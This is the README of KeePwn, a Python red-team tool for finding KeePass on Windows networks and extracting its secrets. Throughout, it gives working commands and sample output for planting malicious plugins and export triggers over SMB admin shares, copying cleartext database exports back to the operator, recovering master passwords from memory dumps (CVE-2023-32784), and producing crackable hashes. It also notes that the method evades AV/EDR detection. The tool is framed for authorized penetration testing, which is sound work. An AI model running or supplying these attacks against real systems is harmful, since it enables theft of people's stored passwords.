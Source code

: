 ![](./.github/images/keepwn_banner.png)

<p align="center">
  A python script to help red teamers discover KeePass instances and extract secrets.
</p>


## Features

- [x] KeePass Discovery
  - [x] Look for KeePass installation files through SMB C$ share.
  - [x] Accept multiple target sources (IP, CIDR, hostname, file).
  - [x] Check for KeePass metadata (version, last access time).
  - [x] Check for running KeePass process through Impacket-based RPC.
  - [x] Multi-threaded implementation to avoid bottleneck hosts.
  - [x] Export search results to CSV.
  - [ ] Find KDBX databases.
- [x] KeePass Plugin Abuse
  - [x] Add and remove KeePass plugins (see [KeeFarce Reborn](https://github.com/d3lb3/KeeFarceReborn)) through SMB C$ share.
  - [x] Retrieve cleartext exports on the remote host.
- [x] KeePass Trigger Abuse
  - [x] Add and remove triggers (see: [KeeThief](https://blog.harmj0y.net/redteaming/keethief-a-case-study-in-attacking-keepass-part-2) from KeePass configuration file through SMB C$ share.
  - [x] Retrieve cleartext exports on the remote host.
  - [ ] Customize triggers with command line arguments.
- [x] KeePass Dump Parsing
  - [x] Parse memory dumps to find master password candidates (CVE-2023-32784).
  - [ ] Parse memory dumps to find encryption key.
- [x] KeePass Database Cracking
  - [x] Convert KDBX to John and Hashcat compatible formats.
  - [ ] Add support for [KDBX 4.x format](https://palant.info/2023/03/29/documenting-keepass-kdbx4-file-format).
- [x] Authentication
  - [x] Support LM/NT hash authentication.
  - [ ] Support Kerberos Authentication.
- [ ] Miscellaneous
  - [ ] Write unit tests.
  - [ ] Make the project available on [PyPI](https://pypi.org/) .

## Installation

```
git clone https://github.com/Orange-Cyberdefense/KeePwn && cd KeePwn
python3 -m pip install .
KeePwn --help
```

Or if you don't want to install but just run in a virtualenv:

```
git clone https://github.com/Orange-Cyberdefense/KeePwn && cd KeePwn
python3 -m venv .venv
source .venv/bin/activate
python3 -m pip install -r requirements.txt
python3 KeePwn.py --help
```

## Usage

<details><summary><b>Discovery</b></summary>

KeePwn's `search` module is used to identify hosts that run KeePass on your target environment:

```
$ python3 KeePwn.py search -u 'Administrator' -p 'P@$$w0rd!!' -d 'COMPANY.LOCAL' -tf ./targets.txt

[*] Starting remote KeePass search with 5 threads

[PC01.COMPANY.LOCAL] No KeePass-related file found
[PC02.COMPANY.LOCAL] No KeePass-related file found
[PC03.COMPANY.LOCAL] Found '\\C$\Program Files\KeePass Password Safe 2\KeePass.exe' (Version: 2.57.1, LastUpdateCheck: 48 minutes ago)
[PC03.COMPANY.LOCAL] Found '\\C$\Users\jdoe\AppData\Roaming\KeePass\KeePass.config.xml'
[PC04.COMPANY.LOCAL] No KeePass-related file found
[PC05.COMPANY.LOCAL] No KeePass-related file found
```

It makes use of Active Directory built-in C$ share to look for KeePass-related files in default locations, hence requiring administrator privileges on the targets.

The module will first look for *KeePass.config.xml* configuration file in each user's *%APPDATA%\KeePass folder*, as well as *KeePass.exe* in its default installation path (*C:\Program Files\KeePass Password Safe 2*). If a configuration file is found but KeePass is not installed globally, KeePwn will look for portable installations up to `--max-depth` subfolders.

This basic search technique should be enough to accurately determine if KeePass is used on a workstation or not. In addition, the `--get-process` option will use Impacket's RPC implementation to determine if KeePass is currently running on the target.

Various quality of life options are also included to let you export search results to a CSV file, display only targets where KeePass is found and adjust the number of parallel threads:

```
$ KeePwn search -u 'Administrator' -p 'P@$$w0rd!!' -d 'COMPANY.LOCAL' -tf ./targets.txt --threads 4 --get-process --found-only --output keepwn_out.csv

[*] Starting remote KeePass search with 4 threads

[PC03.COMPANY.LOCAL] Found '\\C$\Program Files\KeePass Password Safe 2\KeePass.exe' (Version: 2.57.1, LastUpdateCheck: 48 minutes ago)
[PC03.COMPANY.LOCAL] Found '\\C$\Users\jdoe\AppData\Roaming\KeePass\KeePass.config.xml'
[PC03.COMPANY.LOCAL] Found running KeePass.exe process (User: COMPANY\jdoe, PID: 3820)

[+] Search results logged to keepwn_out.csv
```

</details>
<details><summary><b>Plugin Abuse</b></summary>

KeePass features a [plugin framework](https://keepass.info/help/v2/plugins.html) which can be abused to load malicious DLLs into KeePass process, allowing attackers with administrator rights to easily export the database (see: [KeeFarceRebornPlugin](https://github.com/d3lb3/KeeFarceReborn#make-keepass-inject-keefarce-reborn-as-a-plugin)).

KeePwn's `plugin` module allows to :

- List currently installed plugins and enumerate the plugin cache

  ```
  $ KeePwn plugin check -u 'Administrator' -p 'P@$$w0rd!!' -d 'COMPANY.LOCAL' -t PC03.COMPANY.LOCAL                                   
  
  [*] No path specified, searching in default locations..
  [*] Found dbBackup.plgx in folder '\\C$\Program Files\KeePass Password Safe 2\Plugins\'
  [*] Found pDhkzWQYiobXhtBEEnbo in folder '\\C$\Users\jdoe\AppData\Local\KeePass\PluginCache'
  ```

- Add and remove your malicious plugins

  ```
  $ KeePwn plugin add -u 'Administrator' -p 'P@$$w0rd!!' -d 'COMPANY.LOCAL' -t PC03.COMPANY.LOCAL --plugin KeeFarceRebornPlugin.dll  

  [*] No path specified, searching in default locations..
  [*] Found KeePass Plugins directory '\\C$\Program Files\KeePass Password Safe 2\Plugins\'
  [!] About to add KeeFarceRebornPlugin.dll to KeePass Plugins directory, do you want to continue? [y/n]
  > y
  [+] Plugin successfully added to KeePass, wait for next restart, poll and enjoy!
  ```

- Poll %APPDATA% for exports and automatically moves it from remote host to local filesystem

  ```
  $ KeePwn plugin poll -u 'Administrator' -p 'P@$$w0rd!!' -d 'COMPANY.LOCAL' -t PC03.COMPANY.LOCAL                                  

  [*] Polling for database export every 5 seconds.. press CTRL+C to abort. DONE                                                                                                                                                                                
  [+] Found cleartext export '\\C$\\Users\jdoe\AppData\Roaming\export.xml'
  [+] Moved remote export to ./export.xml
  ```

These actions are made through SMB C$ share access, limiting AV/EDR detection as no command execution is performed.

</details>
<details><summary><b>Trigger Abuse</b></summary>

As described in [@harmj0y's blog post](https://blog.harmj0y.net/redteaming/keethief-a-case-study-in-attacking-keepass-part-2/) (and later CVE-2023-24055), KeePass trigger system can be abused in order to export the database in cleartext.

KeePwn's `trigger` module allows to :

- Check if a malicious trigger named "export" is currently written in KeePass configuration

  ```
  $ KeePwn trigger check -u 'Administrator' -p 'P@$$w0rd!!' -d 'COMPANY.LOCAL' -t PC03.COMPANY.LOCAL       

  [*] No KeePass configuration path specified, searching in default locations..
  [*] Found global KeePass configuration '\\C$\Program Files\KeePass Password Safe 2\KeePass.config.xml'
  [*] PreferUserConfiguration flag is set to true, meaning that local configuration is used
  [*] Found local KeePass configuration '\\C$\Users\jdoe\AppData\Roaming\KeePass\KeePass.config.xml'
  [+] No trigger found in KeePass configuration
  ```
  
  Note that KeePwn will prevent you to abuse plugins if the detected KeePass version is not affected by this technique.

- Add and remove a malicious trigger named "export" which performs a cleartext export of the database in %APPDATA% on next KeePass launch

  ```
  ❯ python3 KeePwn.py trigger add -u 'Administrator' -p 'P@$$w0rd!!' -d 'COMPANY.LOCAL' -t PC03.COMPANY.LOCAL       

  [*] No KeePass configuration path specified, searching in default locations..
  [*] Found global KeePass configuration '\\C$\Program Files\KeePass Password Safe 2\KeePass.config.xml'
  [*] PreferUserConfiguration flag is set to true, meaning that local configuration is used
  [*] Found local KeePass configuration '\\C$\Users\jdoe\AppData\Roaming\KeePass\KeePass.config.xml'
  [+] Malicious trigger 'export' successfully added to KeePass configuration file (it may be deleted if KeePass is already running)
  ```

- Poll %APPDATA% for exports and automatically moves it from remote host to local filesystem

  ```
  $ KeePwn trigger poll -u 'Administrator' -p 'P@$$w0rd!!' -d 'COMPANY.LOCAL' -t PC03.COMPANY.LOCAL                                  

  [*] Polling for database export every 5 seconds.. press CTRL+C to abort. DONE                                                                                                                                                                                
  [+] Found cleartext export '\\C$\\Users\jdoe\AppData\Roaming\export.xml'
  [+] Moved remote export to ./export.xml
  ```

If the configuration file path is not the default location, you can specify one with `--config-path` argument.

</details>
<details><summary><b>Memory Dumps Parsing</b></summary>

As described by [@vdohney](https://github.com/vdohney/keepass-password-dumper), it is possible to retrieve the database's master password in memory (CVE-2023-32784, affecting versions prior to KeePass 2.54). 

KeePwn `parse_dump` module will search for potential master password candidates in dumps. Because the resulting strings will (by design) be incomplete, the module can also be used to bruteforce the missing first character against a specified KDBX file.

```
$ python3 KeePwn.py parse_dump -d ./KeePass.DMP --bruteforce Database.kdbx

[*] Searching for the master password in memory dump.. done!                                                                                                                                                                                                 
[*] Found 15 candidates:
     ＿@$$w0rd!!
     ＿Ï$$w0rd!!
     ＿§$$w0rd!!
     ＿ñ$$w0rd!!
     ＿D$$w0rd!!
     ＿$$w0rd!!
     ＿\$$w0rd!!
     ＿#$$w0rd!!
     ＿y$$w0rd!!
     ＿k$$w0rd!!
     ＿9$$w0rd!!
     ＿;$$w0rd!!
     ＿H$$w0rd!!
     ＿>$$w0rd!!
     ＿a$$w0rd!!

[*] Bruteforcing missing symbol with the 254 most common unicode characters.. done!                                                                                                                                                                          
[+] Database.kdbx successfully unlocked using master password P@$$w0rd!!
```

The memory dump parsing makes use of [@CMEPW's Python PoC](https://github.com/CMEPW/keepass-dump-masterkey). Thanks for letting me re-use the code :)

</details>
<details><summary><b>Cracking KDBX Databases</b></summary>

keepass2john.py script by [@harmjoy](https://github.com/HarmJ0y) was ported to KeePwn with the help of [@0xSp3ctra](https://github.com/0xSp3ctra).

KeePwn `convert` will extract a crackable hash (john or hashcat format) from a KeePass Database. 

```
KeePwn convert -d ./Database.kdbx 

[+] Happy cracking! (hashcat -m 13400)
$keepass$*2*60000*222*b794eae002aff2a55a307bedeadebee210ee3c3596731f5acf2a1ff3add7d5af*7f19293f120717cbb88cdd27a3d4b9cb58316c61c625ca3a39f94c5a96b6135b*c004b3bc403730ce1bba15d5feda18e2*55a142d52798313c336c9442d824d7098ded3c5e161b76640100c99ec1cd95e1*60bb1f64c2bfff8a4e1eb43c533054f2f5c46fac19a867e7f80a1a71d6b68f17
```

It can be used with more arguments to specify the expected hash type as well as an output file path:

```
KeePwn convert -d ./Database.kdbx -t john -o ./Database.hash 

[+] Hash written to ./Database.hash, happy cracking! (john --format=keepass)
```

KDBX 4.x is not yet supported, you may use https://github.com/r3nt0n/keepass4brute. 
If you are in the mood for a PR https://palant.info/2023/03/29/documenting-keepass-kdbx4-file-format should be a good read :)

## Contribute

Pull requests are welcome (see: unchecked Features + some TODOs in code).

Feel free to open an issue or DM me on Twitter to suggest improvement.
